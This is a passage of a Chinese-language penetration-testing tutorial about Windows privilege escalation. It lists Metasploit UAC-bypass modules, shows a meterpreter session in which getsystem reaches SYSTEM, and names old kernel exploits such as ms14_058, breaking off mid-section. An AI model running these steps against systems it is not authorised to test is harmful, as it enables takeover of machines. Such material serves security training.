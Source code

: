 ```
Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  FILENAME                    no        File name on disk
  PATH                        no        Location on disk, %TEMP% used if not set
  SESSION                     yes       The session to run this module on.
  TECHNIQUE  EXE              yes       Technique to use (Accepted: PSH, EXE)

Payload information:

Description:
  This module will attempt to elevate execution level using the 
  ShellExecute undocumented RunAs flag to bypass low UAC settings.

```

描述： 这个模块用更高级别去执行，达到绕过UAC限制。

攻击之后，win7就会弹出一个框，点击ok就可以进行 `getsystem`提权了。

默认uac设置的级别是默认，所以不会弹窗。(win+R打开，msconfig,工具 => 更改UAC设置)

[![w5IltJ.png](https://s1.ax1x.com/2020/09/19/w5IltJ.png)](https://imgchr.com/i/w5IltJ)

我们修改级别为高即会弹窗。

![w5I8pR.png](https://s1.ax1x.com/2020/09/19/w5I8pR.png)

#### UAC绕过

msf模块：

`exploit/windows/local/bypassuac`

`exploit/windows/local/bypassuac_injection`

`exploit/windows/local/bypassuac_vbs`

使用模块，设置信息之后，exploit,会获取到新的会话，可直接提权

```
meterpreter > getuid
Server username: admin-PC\admin
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

#### 利用提权漏洞进行提权

ms14_058、 ms16_032、 ms15_051 、  ms16_016

msf模块 `exploit/windows/local/ms14_058_track_popup_menu`

这里直接进去就是system权限，
